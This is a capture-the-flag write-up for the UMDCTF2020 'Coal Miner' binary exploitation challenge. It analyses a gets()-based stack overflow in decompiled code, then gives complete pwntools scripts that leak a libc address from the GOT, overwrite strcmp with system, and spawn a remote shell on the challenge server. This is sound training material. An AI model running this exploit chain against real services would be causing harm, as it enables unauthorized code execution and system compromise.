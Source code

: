# Coal Miner - Exploitation

## Description

First to fall over when the atmosphere is less than perfect

Your sensibilities are shaken by the slightest defect

nc 161.35.8.211 9999  
Author: moogboi

## Solution

We are given a binary "coalminer"

```  
$ file coalminer  
coalminer: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically
linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32,
BuildID[sha1]=bd336cddc0548ae0bc5e123e3932fd91be29888a, not stripped  
```

```  
$ checksec coalminer  
[*] '/home/yodak/Documents/umdctf2020/coalminer/coalminer'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
```

We can add or print items

```  
$ ./coalminer

Welcome to the Item Database  
You may choose the commands 'add' or 'print' or 'done'  
> add

Enter a name:  
aaaaa  
Enter a description:  
aaaa  
> print

Item 1  
	aaaaa  
	aaaa

> done

```

First, lets understand how adding new item works, thats how "AddItem" function
looks in ghidra:

```  
void AddItem(astruct *param_1)  
{  
 uint uVar1;  
 void *pvVar2;  
 long in_FS_OFFSET;  
 undefined8 local_28;  
 long local_20;  
  
 local_20 = *(long *)(in_FS_OFFSET + 0x28);  
 uVar1 = param_1->number_of_items;  
 pvVar2 = malloc(0x20);  
 *(void **)(&param_1->description + (ulong)uVar1 * 0x10) = pvVar2;  
 puts("Enter a name: ");  
 gets(&param_1->name + (ulong)(uint)param_1->number_of_items * 0x10);  
 puts("Enter a description: ");  
 gets((char *)&local_28);  
 **(undefined8 **)(&param_1->description +
(ulong)(uint)param_1->number_of_items * 0x10) = local_28;  
 param_1->number_of_items = param_1->number_of_items + 1;  
 if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {  
                   /* WARNING: Subroutine does not return */  
   __stack_chk_fail();  
 }  
 return;  
}

```

We can see that it allocates 32 bytes on the heap for the item description,
then it reads to stack a name of the item, reads description to local
variable, and then copies the 8 bytes of description to previously allocated
memory on the heap. We can clearly see that using the gets functions causes
stack buffer overflow, but from checksec command we deduced that stack canary
is used, which doesn't allow us to just overflow funtion return address. The
parameter passed to the AddItem function is a local variable in the main
function, so let's take a look how these variables are actually stored. That's
how the stack looks before returning from "AddItem" function.

```  
pwndbg> x/200xg $rsp  
0x7fffffffdbf0: 0x0000000000602080      0x00007fffffffdc30  
0x7fffffffdc00: 0x0000000062626262      0x09cea916a7582800  
0x7fffffffdc10: 0x0000000000400b90      0x0000000000400b90  
0x7fffffffdc20: 0x00007fffffffde50      0x0000000000400af7  
0x7fffffffdc30: 0x0000000061616161      0x00000000006036b0  
                       .  
                       .  
                       .  
0x7fffffffde30: 0x0000000000000001      0x0000000000400770  
```

My input for the name was "aaaa" and for the description "bbbb", the name
landed on address 0x7fffffffdc30, which is main local variable, on address
0x7fffffffdc38 we can see address of space allocated by malloc, where is
copied the description of item, which is stored at address 0x7fffffffdc00,
address 0x7fffffffde30 stores number of items which is increased by one every
time the function is called. We can establish from this that a single item is
a struct looking something like this:

```  
struct Item {  
   char name[8];  
   char *description;  
};  
```

The "PrintItems" function just looks how many items there is (address
0x7fffffffde30 in my case) and prints name and description (which is the
address to the heap) of the items. So to exploit this first we have to
determine which version of libc is run on the server. We can use the gets
function that saves Item name and can overwrite the address of item
description and then use the "PrintItems" function (it prints the description
of item at an address) to read address from GOT. But first we have to find a
way to not overwrite that address because "addItem" function saves there the
description suplied by second gets.

```  
gets((char *)&local_28);  
**(undefined8 **)(&param_1->description +
(ulong)(uint)param_1->number_of_items * 0x10) = local_28;  
```

To do this we can supply more than one item and overwrite the variable that
stores the number of items, to make "addItem" function not to overwrite the
address we want to read. Script that I used:

```  
from pwn import *

r = remote('161.35.8.211', 9999)  
puts_plt=0x602020  
address=0x602010 # address that we dont care if it gets overwritten

print(r.recvuntil('> '))

r.sendline('add')  
r.sendline('a'*8+p64(puts_plt)+'b'*8+p64(address)+'c'*(480)+"\x01")  
r.sendline('asdf')

print(r.recvuntil('> '))

r.sendline('print')

par = r.recvuntil('> ')

puts_libc = u64(par.split("\n")[3][1:]+"\0\0")

print(hex(puts_libc))

r.close()

```

The variable that stores the number of items is overwritten by 1, it is
incremented by one by "AddItem" function and then the description supplied by
gets is written to 0x602010 and the 0x602020 is not changed.

To identify which libc is running I used https://libc.nullbyte.cat/

After that we can write the actual script to exploit it, I replaced the strcmp
funtion address in GOT by system function, because it uses string provided by
user in which we just write "/b*/sh" (the wildcard * is used becaues it reads
7 bytes from user)

```  
from pwn import *

r = remote('161.35.8.211', 9999)  
puts_plt=0x602020  
address=0x602010 # random address that we dont care if it gets overwritten  
strcmp_plt=0x602050  
offset_system=0x03f480  
offset_puts=0x068f90

print(r.recvuntil('> '))

r.sendline('add')  
r.sendline('a'*8+p64(puts_plt)+'b'*8+p64(address)+'c'*(480)+"\x01")  
r.sendline('asdf')

print(r.recvuntil('> '))

r.sendline('print')

par = r.recvuntil('> ')

libc = u64(par.split("\n")[3][1:]+"\0\0")-offset_puts  
print(hex(libc))

r.sendline('add')

r.sendline('a'*8+p64(strcmp_plt))  
r.sendline(p64(libc+offset_system))  
print(r.recvuntil('> '))

r.sendline('/b*/sh')

r.interactive()

r.close()

```

Original writeup
(https://github.com/Yodakasi/ctf_writeups/tree/master/UMDCTF2020/coalminer).